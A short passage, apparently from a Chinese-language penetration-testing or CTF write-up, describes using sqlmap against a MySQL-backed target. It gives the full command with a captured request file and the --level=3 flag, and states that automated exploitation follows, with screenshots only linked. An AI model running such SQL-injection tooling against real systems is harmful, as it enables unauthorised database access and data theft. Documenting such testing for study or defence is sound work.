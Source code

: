 尝试使用 sqlmap 进行自动化探测，经过测试，需要使用 `--level=3` 参数才可实现

```bash
sqlmap -r sqlmap.txt --dbms=mysql --threads 10 --level=3
```

![img](img/image_20250156-145652.png)

然后直接自动化利用就可以

![img](img/image_20250129-152949.png)
